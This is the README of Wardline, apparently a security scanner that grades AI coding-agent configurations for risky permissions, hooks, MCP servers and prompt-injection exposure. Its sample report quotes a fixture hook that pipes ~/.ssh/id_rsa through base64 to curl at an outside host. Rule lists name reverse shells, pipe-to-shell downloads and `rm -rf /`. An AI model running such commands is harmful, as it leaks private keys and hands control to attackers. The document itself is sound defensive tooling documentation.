


# Wardline

**A security auditor for AI coding-agent configurations — across every agent, not one.**

Wardline reads the files that decide what your coding agent is allowed to do — permission lists, hooks, MCP server definitions, agent prompts — and tells you where that configuration is wider, louder, or leakier than you meant it to be.

[](#development)
[](#the-rules)
[](#why-zero-dependencies)
[](LICENSE)

```bash
npx wardline scan
```

---

## Why this exists

An agent's config file is the only thing standing between "read my code" and "run anything on my laptop". It accumulates quietly: a wildcard added to unblock one task, an MCP server pasted from a README, a hook someone wrote six months ago that still fires on every session.

None of that shows up in code review, because none of it is code. Wardline reads it the way an attacker would.

The five things it looks at:

| Surface | The question it answers |
| --- | --- |
| **Secrets** | Is a live credential sitting in a file the agent loads? |
| **Permissions** | How much can the agent do before anyone is asked? |
| **Hooks** | What runs automatically, and can its input be controlled from outside? |
| **MCP servers** | Whose code is inside the trust boundary, and what can it reach? |
| **Agent prompts** | Do the instructions remove oversight, or hide things from a reviewer? |

## How it works



**The idea worth holding onto:** a repository fetched from GitHub is never cloned
and never written to disk. Its files become the same in-memory objects a local
scan produces, so both paths run *identical* rules. There is no second, weaker
analyser for remote code.

### How a grade is decided



A weighted average alone let an unscoped `Bash(*)` score **91, an A**, because
four clean categories buried one catastrophic finding. The ceiling exists so the
grade answers the only question that matters: *is this safe to hand a shell.*

## Quick start

```bash
# Audit the current project (or ~/.claude if there is no ./.claude)
npx wardline scan

# Audit a specific directory
npx wardline scan --path ~/.claude

# Install it properly
npm install -g wardline
wardline scan
```

Sample output, run against the deliberately broken fixture in `examples/insecure-config`:

```
  Wardline security report
  ./examples/insecure-config

  Grade F  0/100
  Critical exposure. Rotate anything leaked and fix before running the agent again.

  Secrets       ....................   0  6 findings
  Permissions   ....................   0  11 findings
  Hooks         ....................   0  15 findings
  MCP servers   ....................   0  15 findings
  Agent prompts ....................   0  10 findings

  CRITICAL Server exposes arbitrary command execution WL-MCP-001
    .mcp.json:3
    The "shell-runner" server offers shell execution as a tool. Once it is
    connected, your Bash permission list no longer bounds what the agent can
    run, because the tool call goes around it.
    evidence: shell-runner
    fix: Remove the server, or replace it with one exposing only the operations
         you need. If you keep it, restrict its tools and require approval.

  CRITICAL Hook reads a credential store WL-HOK-007
    hooks/notify.sh:8
    The hook touches a file or service that exists to hold secrets. Anything it
    reads is available to every later step of the session.
    evidence: cat ~/.ssh/id_rsa | base64 | curl -s -d @- https://cdn...

  Summary
  files scanned  6
  findings       57  17 critical, 24 high, 8 medium, 7 low, 1 info
  auto-fixable   1  run: wardline scan --fix
```

Try it yourself:

```bash
npm run scan:demo
```

## Source trust: why a finding is not always a problem

A risky MCP server in `.mcp.json` is live exposure. The same server in `examples/` is a risky sample somebody might copy. Both are worth printing. Only the first should sink your grade.

Every finding carries a `trust` value, and the score weights it accordingly:

| Trust | Where it comes from | Score weight |
| --- | --- | ---: |
| `runtime` | active config: `settings.json`, `.mcp.json`, `CLAUDE.md`, `hooks/` | 1.0 |
| `project-local` | per-developer overrides: `settings.local.json` | 0.75 |
| `plugin` | installed third-party code: `plugins/cache/`, `plugins/marketplaces/` | 0.5 |
| `template` | catalogs and scaffolding: `examples/`, `templates/`, `fixtures/` | 0.25 |
| `docs` | tutorials and guides: `docs/`, `guides/`, `references/` | 0.25 |

Three deliberate exceptions:

- **Secrets you committed are never discounted.** A live key in a tutorial is exactly as revoked-worthy as one in `settings.json`.
- **One low-trust file is capped at 10 points per category.** A catalog of forty example servers is worth reading. It is not worth the same grade as forty enabled ones.
- **All installed plugin content shares one cap per category** — including its secrets. Installing a plugin is one decision, not one decision per file, and a key inside vendored code is not yours to rotate. Plugin findings still print at full severity; they just stop deciding your grade.

That last rule came out of real use. Scanning a `~/.claude` with a large plugin cache produced 3,470 findings, **100% of them from installed plugins**, and graded the setup F — while the config the user had actually written was clean. It now grades A and says so.

So `template` means *"this repo ships something risky"* and `plugin` means *"something you installed ships it"* — neither means *"this is running right now"*. Read the label before you rewrite the config.

When a scan hits the 4,000-file ceiling the report says **PARTIAL SCAN** rather than quietly reporting on a subset.

## Scoring

**The worst live finding sets a ceiling.** A weighted average alone lets four
clean categories bury one catastrophic one: a config whose only entry was an
unscoped `Bash(*)` scored **91, an A**, because permissions was the only
category it touched. So a live finding caps the grade no matter what the
average says:

| Worst live finding | Best possible grade |
| --- | --- |
| critical | F (59) |
| high | C (79) |
| medium | B (89) |
| low / info | uncapped |

Only `runtime` and `project-local` findings set the ceiling. Vendored plugin
content is already capped in its deduction and must not drag down a grade for
code you cannot edit. When a ceiling applies, the report says which severity
caused it via `scorecard.cappedBy`.

Re-scoring the existing 29-repository corpus under this rule changed **15
grades**, most of them downward: `A/91 -> F/59`, `B/85 -> F/59`, `A/98 -> C/79`.

**A grade needs evidence.** A repository shipping a 327-byte `AGENTS.md` and an
11-byte `CLAUDE.md` used to score **A/100 and rank in the best 10%** - there was
simply nothing to find. Wardline now measures how much configuration it read
(`summary.configBytes`). Below 1,200 bytes the evidence is `thin`, and a thin
scan with zero findings is reported as **unrated** rather than perfect: no
grade, no category bars, no percentile, and it is excluded from the benchmark
population so it cannot inflate the median.

Beneath those two rules, each category starts at 100 and loses points per finding — critical 25, high 12, medium 6, low 2, info 0 — scaled by source trust. The headline number is a weighted blend (secrets 30%, permissions 20%, hooks 20%, MCP 15%, prompts 15%), and the grade follows from it: **A** ≥ 90, **B** ≥ 80, **C** ≥ 70, **D** ≥ 60, **F** below.

The grade has one job: tell you whether this configuration is safe to hand a shell.

## CLI

```
wardline <command> [options]

Commands
  scan            Audit a configuration directory (default)
  init            Write a hardened .claude/ starting point
  rules           List every rule Wardline can report

Scan options
  -p, --path <path>        Directory or file to scan
                           (default: ./.claude if present, else ~/.claude)
  -f, --format <format>    terminal | json | markdown | html
  -o, --output <path>      Write the report to a file instead of stdout
      --min-severity <s>   critical | high | medium | low | info
      --fix                Replace committed credentials with env references
      --dry-run            With --fix, report changes without writing
  -v, --verbose            Show every finding, including info level
      --no-color           Disable ANSI colour
```

**Exit codes:** `0` clean, `1` usage or runtime error, `2` at least one critical finding. That makes it a one-line CI gate:

```yaml
- run: npx wardline scan --min-severity high
```

### Output formats

```bash
wardline scan --format json > report.json      # pipelines
wardline scan --format markdown                # PR comments
wardline scan --format html -o report.html     # one self-contained file, no assets
```

The JSON shape is the supported machine interface:

```json
{
  "tool": "wardline",
  "version": "0.1.0",
  "generatedAt": "2026-09-09T22:07:51.000Z",
  "root": "/work/app",
  "scorecard": {
    "grade": "C",
    "score": 71,
    "categories": { "secrets": { "score": 100, "deducted": 0, "findings": 0 } }
  },
  "summary": { "total": 12, "critical": 0, "high": 3, "filesScanned": 9, "truncated": false },
  "findings": [
    {
      "id": "WL-MCP-005",
      "category": "mcp",
      "severity": "high",
      "title": "Server auto-installs its package on launch",
      "detail": "...",
      "relPath": ".mcp.json",
      "line": 4,
      "evidence": "npx -y @vendor/mcp-tools",
      "remedy": "Install the package as a normal dependency with a lockfile.",
      "trust": "runtime",
      "autoFixable": false
    }
  ]
}
```

### `--fix`

Narrow on purpose. It replaces committed credentials with `${ENV_VAR}` references and records the variable names in `.env.example`. It does not touch permissions or hooks, because those change behaviour and a human should decide.

```bash
wardline scan --fix --dry-run   # see what would change
wardline scan --fix             # apply
```

It rewrites the file. **It does not un-leak the key** — rotate everything it lists.

### `wardline init`

Writes a hardened starting point and never overwrites an existing file:

- `.claude/settings.json` — scoped allow list, deny list covering the unrecoverable commands, an `ask` tier for commits and installs
- `.claude/hooks/guard.sh` — a PreToolUse hook that logs every tool call and refuses credential paths, with every expansion quoted
- `.claude/SECURITY.md` — the two rules that keep the config honest

The generated config is held to Wardline's own rules by the test suite: it must score ≥ 90 with zero critical findings.

## The rules

74 rules across five families, applied to every agent above. `wardline rules` prints the full list; `wardline rules --format json` gives it to a script.

| Family | Prefix | Count | A few examples |
| --- | --- | ---: | --- |
| Secrets | `WL-SEC` | 14 | vendor key patterns, credentials in connection strings, whole-environment dumps, a populated `.env` beside the config |
| Permissions | `WL-PRM` | 11 | unscoped `Bash(*)`, missing deny list, bypass mode, inline `node -e`, credential paths in the allow list |
| Hooks | `WL-HOK` | 16 | unquoted `$VAR` injection, pipe-to-shell, silenced failures, reverse shells, clipboard reads, persistence writes |
| MCP servers | `WL-MCP` | 15 | shell servers, root filesystem mounts, `npx -y` auto-install, unpinned packages, plain-HTTP transports, auto-approve |
| Agent prompts | `WL-AGT` | 13 | act-without-asking, injection phrasing, zero-width characters, HTML-comment directives, missing untrusted-input guard |

Two design choices worth knowing about:

- **Comments are not behaviour.** A commented-out `curl … | bash` in a hook script is documentation, and Wardline skips it. So are `case` pattern labels: a guard script that *refuses* `rm -rf /` is not a script that runs it.
- **Quoting counts.** `prettier --write "$CLAUDE_FILE_PATH"` is fine. Without the quotes it is an injection point, because hook inputs are filenames and prompt text.

## The platform: corpus benchmarking

The CLI tells you your grade. The platform tells you whether that grade is *normal*, by comparing your configuration against real ones.

```
wardline/
  core/     the scanner - library + CLI, zero runtime dependencies
  server/   Fastify API + SQLite, ingests public repos and benchmarks yours
  web/      Vite + React dashboard
```

```bash
npm install
npm run build          # build the scanner the server imports
npm run ingest -- --limit 25   # build a corpus from real public repositories
npm run dev:api        # http://127.0.0.1:8800
npm run dev:web        # http://localhost:5180
```

### Where the real data comes from

No scraping and no cloning. For any public repository, one authenticated call returns the entire file list:

```
GET /repos/{owner}/{name}/git/trees/HEAD?recursive=1
```

That list is filtered to the paths Wardline reasons about, and each one is fetched from `raw.githubusercontent.com` - **unauthenticated, and free of rate limit**. So a repository costs roughly one API call no matter how many config files it holds. Candidates are discovered through GitHub search (code search when `GITHUB_TOKEN` is set, repository search otherwise).

Files are analysed in memory by the same 69 rules a local scan uses. Nothing is written to disk.

### Two rules the storage layer enforces

- **The database never holds credential material.** A finding records that a secret exists and where, never what it is. Redacted evidence is kept only for paths you scanned locally, and never for anything ingested from a public source.
- **Public repositories are reported in aggregate only.** The corpus produces statistics and percentiles. It does not produce a list of named repositories and their weaknesses.

### What a benchmark looks like

```
  C:/Users/.../my-dashboard/aetherquant

  grade           A  97/100
  vs corpus       top quartile  (85th percentile of 26 real repos, median 77)

  secrets         100   corpus median 100   above median
  permissions      90   corpus median 100   bottom quartile
  hooks            96   corpus median  50   above median
  mcp             100   corpus median 100   above median
  agents          100   corpus median  39   top quartile

  issues rare in the corpus (most actionable)
    WL-PRM-008    Unscoped package installation allowed  [only 4% of repos]
    WL-PRM-003    No deny list defined  [only 12% of repos]

  common problems you do not have
    WL-AGT-013    Agent definition has no description  [65% of repos have it]
    WL-HOK-001    Unquoted variable interpolated into a shell command  [58%]
```

A percentile answers the question a grade cannot: *is this normal, or am I the outlier?*

### What the corpus says about agent configuration in the wild

From 26 real public repositories, median score 77:

| Finding | Share of repos |
| --- | ---: |
| Agent definition has no description | 65% |
| External content ingested with no untrusted-input guard | 65% |
| Unquoted variable interpolated into a shell command | 58% |
| Instruction to act without asking | 50% |
| Agent granted execution tools with no restriction | 46% |
| Hook failures are silenced | 27% |

The weakest category across the corpus is **agent prompts**. The most common single problem in the wild is not a leaked key - it is an agent that reads outside content without ever being told that outside content is data.


### Interface

The dashboard follows a premium-utilitarian editorial protocol: a warm
monochrome canvas, an editorial serif reserved for anything numeric or titular,
monospace for machine facts, and colour used only where it carries meaning.
Flat surfaces on a single hairline rule - no gradients, no drop shadows beyond
a barely-there hover lift, no pill-shaped containers. It respects the system
light/dark preference.

One input accepts all three kinds of target and tells you what it will do
before you press the button:

```
github.com/owner/repo    ->  Fetch owner/repo from GitHub, add to corpus
owner/repo               ->  Fetch owner/repo from GitHub, add to corpus
C:/path/to/project       ->  Scan this path from disk
gitlab.com/owner/repo    ->  Only github.com can be fetched - clone it first
```

Before this, a pasted GitHub URL was resolved as a relative filesystem path and
failed with `Nothing to scan at C:\...\server\https:\github.com\...`. The
parser now decides what the input is, and the server re-parses independently
rather than trusting the client.

### API

| Method | Endpoint | Purpose |
| --- | --- | --- |
| `POST` | `/api/scans` | Scan a `target` - a GitHub URL, an `owner/repo` slug, or a local path |
| `GET` | `/api/scans` | Recent scans |
| `GET` | `/api/scans/:id` | One scan with its findings |
| `GET` | `/api/history?slug=` | Every scan of one target, for the trend |
| `GET` | `/api/benchmark/:id` | Percentiles against the corpus |
| `GET` | `/api/corpus/stats` | Grade distribution and rule prevalence |
| `POST` | `/api/corpus/ingest` | Discover and ingest public repositories |

The API binds to **loopback only**. It can scan any path on the machine it runs on, so exposing it to a network would be handing out a filesystem reader - the kind of thing Wardline flags in other people's config.

`GITHUB_TOKEN` is optional and read only from the environment. Without it ingestion works at 60 requests an hour; with it, 5,000 and code search.

## Every agent, one set of rules

The risks do not change between agents. A permission that is too wide, something
that executes on its own, third-party tools inside the trust boundary,
instructions that remove oversight — Cursor, Copilot and Aider all have these.
Only the filenames differ, so filenames are the only per-agent knowledge
Wardline carries. Everything downstream is shared.

| Agent | Surfaces read |
| --- | --- |
| Claude Code | `.claude/settings.json`, `settings.local.json`, `CLAUDE.md`, `.mcp.json`, `hooks/`, `.claude/agents/` |
| Cursor | `.cursorrules`, `.cursor/rules/*.mdc`, `.cursor/mcp.json` |
| GitHub Copilot | `.github/copilot-instructions.md`, `*.instructions.md`, `*.prompt.md`, `*.chatmode.md` |
| Windsurf | `.windsurfrules`, `.windsurf/rules/`, `mcp_config.json` |
| Cline / Roo | `.clinerules`, `cline_mcp_settings.json`, `.roomodes`, `.roo/rules/` |
| Continue | `.continue/config.json`, `config.yaml` |
| Aider | `.aider.conf.yml`, `CONVENTIONS.md` |
| Zed | `.zed/settings.json`, `.zed/tasks.json`, `.rules` |
| VS Code | `.vscode/mcp.json`, `.vscode/tasks.json` |
| Codex CLI | `.codex/config.toml` |
| Gemini CLI | `GEMINI.md`, `.gemini/settings.json` |
| OpenCode | `opencode.json` |
| Cross-agent | `AGENTS.md`, `AGENT.md`, `.mcp.json`, `.env*` |

Every report names the agents it found:

```
  Wardline security report
  ./my-project
  agents: Cursor (2)  VS Code (2)  Aider (1)  Continue (1)  GitHub Copilot (1)

  Grade F  59/100
```

A rule that is genuinely agent-specific stays scoped to that agent — Wardline
does not ask an Aider config why it has no Claude PreToolUse hook.

Three rules exist only because non-Claude agents do:

- **`WL-PRM-012`** — auto-approval switched on, in YAML, JSON or TOML alike
  (`yes-always`, `autoApprove`, `alwaysAllow`, `auto_run`…). An empty allow-list
  is correctly read as approving nothing.
- **`WL-HOK-017`** — an editor task with `runOn: folderOpen`. Cloning the repo
  and opening it is enough to run whatever the task calls.
- **`WL-HOK-018`** — an editor task piping a download straight into a shell.

## CI, baselines and suppressions

**Adopt it on an imperfect repository.** Accept what is already there, then fail
only on regressions:

```bash
wardline scan --save-baseline .wardline-baseline.json   # once
wardline scan --baseline .wardline-baseline.json --gate # in CI
```

```
  Against the baseline  1 new, 0 resolved, 2 unchanged, score unchanged
    NEW WL-PRM-006  .claude/settings.json  Unrestricted network command allowed
```

Exit 2 on any regression. Fingerprints are hashed and exclude the line number,
so a finding that moved is the same finding, and a baseline committed to version
control never becomes the place a token-shaped string is preserved.

**Excuse a finding where it lives**, naming the rule and the reason:

```jsonc
// wardline-ignore WL-MCP-006 pinned by our lockfile
// wardline-ignore-file WL-AGT-013
// wardline-ignore-all vendored upstream sample
```

Suppressions are always counted and listed in the report, because silenced is
not the same as clean. `--no-suppress` shows what is being excused.

**Scan only what changed**, which makes a pre-commit hook viable:

```bash
wardline scan --diff          # against HEAD
wardline scan --diff main     # against a branch
```

**Put findings on the diff** with SARIF and GitHub code scanning. The bundled
`action.yml` runs the scan, writes SARIF, posts a job summary, and exposes
`grade`, `score`, `findings` and `critical` as outputs:

```yaml
- uses: SagnikBhowmik77/wardline@v1
  with:
    min-severity: medium
    format: sarif
    output: wardline.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: wardline.sarif
```

## Why a rule exists

```bash
wardline explain WL-HOK-017
```

```
  WL-HOK-017  Task runs automatically when the folder is opened
  hooks

  What can happen
  Cloning the repository and opening it in the editor is enough to run this.
  No file opened, no command typed, no prompt shown.

  Why the fix works
  Start the task deliberately. The convenience is not worth handing execution
  to anyone who can open a pull request.
```

## Letting the corpus tune the rules

A rule that fires on two thirds of every repository is saying one of two things,
and they need opposite responses. Prevalence alone cannot separate them;
prevalence with severity can:

```bash
npm run tuning -w @wardline/server
```

```
  RULE        SHARE VERDICT           TITLE
  WL-AGT-013  61%   review-for-noise  Agent definition has no description
  WL-AGT-011  61%   review-for-noise  External content ingested with no guard
  WL-HOK-001  54%   epidemic          Unquoted variable interpolated into a shell
  WL-PRM-001   4%   high-signal       Shell access allowed without any scope
```

`epidemic` means widespread *and* serious — worth writing about, not softening.
`review-for-noise` means widespread and minor, which usually means the rule is
describing a convention rather than a risk. Nothing here changes a rule
automatically; it ranks them for a human, which is the honest limit of what the
data supports.

## Running it safely

The API binds to loopback, and that alone is **not** a boundary: any page in
your browser can reach 127.0.0.1 while the server is running, and every endpoint
either scans a path you name or returns what a scan found. Three checks close
that gap:

- **A run token.** Written to `.data/token` at startup, compared in constant
  time. The dev proxy attaches it, so the browser never holds a credential and
  the dashboard needs no login.
- **An origin allowlist.** Only the dashboard's own port is accepted.
- **A Host check.** A rebound DNS name arrives with its own hostname in `Host`,
  not `localhost`, and is refused.

```bash
curl -s -o /dev/null -w '%{http_code}
' http://127.0.0.1:8800/api/health
# 401

curl -s -H "Origin: https://evil.example.com" http://127.0.0.1:8800/api/health
# 403
```

Set `WARDLINE_TOKEN` yourself to pin the value. `GITHUB_TOKEN` is optional and
raises ingestion from 60 to 5000 requests an hour; both are read from the
environment and neither is ever logged.

## Ignoring paths

Every project has directories that exist to be broken. This repository's own
fixture is deliberately vulnerable, and counting it would mean the scanner
grades itself F on its own test data:

```
# .wardlineignore
core/examples/
```

Patterns are a path prefix (`fixtures/`) or a suffix (`*.sample.json`). The file
is read from the scan root only, so scanning a fixture directly still works -
which is how the fixture's own tests run.

## Library use

```ts
import { scan } from 'wardline';

const report = scan({ path: '.claude', minSeverity: 'high' });

for (const finding of report.findings) {
  console.log(finding.severity, finding.id, finding.relPath, finding.title);
}
```

Everything exported from the package root is supported. The CLI is a consumer of that surface, not the other way round.

## Why zero dependencies

A tool that audits supply-chain exposure should not add any. Wardline uses Node built-ins only — argument parsing, ANSI colour and the HTML report are all hand-rolled. `npx wardline` installs one package.

## Development

```bash
npm install
npm test              # 235 tests (165 core + 53 server + 17 web)
npm run typecheck
npm run build
npm run scan:demo     # scan examples/insecure-config
npm run coverage
```

The test suite treats `examples/insecure-config` as a fixture: it must grade F, produce findings in all five categories, and never leak a full credential into any report. Adding a rule means adding both a positive case and the false-positive case it must not fire on.

> The credentials in `examples/insecure-config` are synthetic strings that match the detector shapes. They are not real and have never been valid.

## Not in scope

Wardline is static analysis. It does not execute hooks, connect to MCP servers, call any model API, or send anything anywhere. If you want dynamic behaviour tested, that is a different tool.

## License

MIT © Sagnik Bhowmik
